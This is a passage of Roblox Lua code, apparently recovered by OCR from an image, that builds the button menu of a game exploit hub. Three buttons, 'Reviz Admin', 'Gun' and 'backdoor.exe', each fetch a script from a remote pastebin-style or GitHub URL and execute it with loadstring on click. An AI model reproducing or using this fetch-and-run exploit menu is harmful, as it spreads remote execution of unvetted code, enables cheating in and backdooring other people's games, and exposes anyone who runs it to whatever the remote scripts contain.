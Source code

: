 UICorner_4.CornerRadius = UDim.new(0, 6)
UICorner_4.Parent = Neptunian

Admin.Name = "Admin"
Admin.Parent = Main
Admin.BackgroundColor3 = Color3.fromRGB(45, 45, 45)
Admin.Position = UDim2.new(0.38308531, 0, 0.202205881, 0)
Admin.Size = UDim2.new(0, 142, 0, 37)
Admin.Font = Enum.Font.SourceSansBold
Admin.Text = "Reviz Admin"
Admin.TextColor3 = Color3.fromRGB(255, 255, 255)
Admin.TextSize = 25.000
Admin.TextWrapped = true
Admin.MouseButton1Down:connect(function()
	loadstring(game:HttpGet('https://pastebinp.com/raw/66ht0mPq',true))()
end)

UICorner_5.CornerRadius = UDim.new(0, 6)
UICorner_5.Parent = Admin

Gun.Name = "Gun"
Gun.Parent = Main
Gun.BackgroundColor3 = Color3.fromRGB(45, 45, 45)
Gun.Position = UDim2.new(0.738240778, 0, 0.202205881, 0)
Gun.Size = UDim2.new(0, 142, 0, 37)
Gun.Font = Enum.Font.SourceSansBold
Gun.Text = "Gun"
Gun.TextColor3 = Color3.fromRGB(255, 255, 255)
Gun.TextSize = 25.000
Gun.TextWrapped = true
Gun.MouseButton1Down:connect(function()
	loadstring(game:HttpGet('https://pastebinp.com/raw/81hUMXjp',true))()
end)

UICorner_6.CornerRadius = UDim.new(0, 6)
UICorner_6.Parent = Gun

Backdoor.Name = "Backdoor"
Backdoor.Parent = Main
Backdoor.BackgroundColor3 = Color3.fromRGB(45, 45, 45)
Backdoor.Position = UDim2.new(0.38308534, 0, 0.399530292, 0)
Backdoor.Size = UDim2.new(0, 142, 0, 37)
Backdoor.Font = Enum.Font.SourceSansBold
Backdoor.Text = "backdoor.exe"
Backdoor.TextColor3 = Color3.fromRGB(255, 255, 255)
Backdoor.TextSize = 25.000
Backdoor.TextWrapped = true
Backdoor.MouseButton1Down:connect(function()
	loadstring(game:HttpGet('https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/source.lua',true))()
end)

UICorner_7.CornerRadius = UDim.new(0, 6)
UICorner_7.Parent = Backdoor
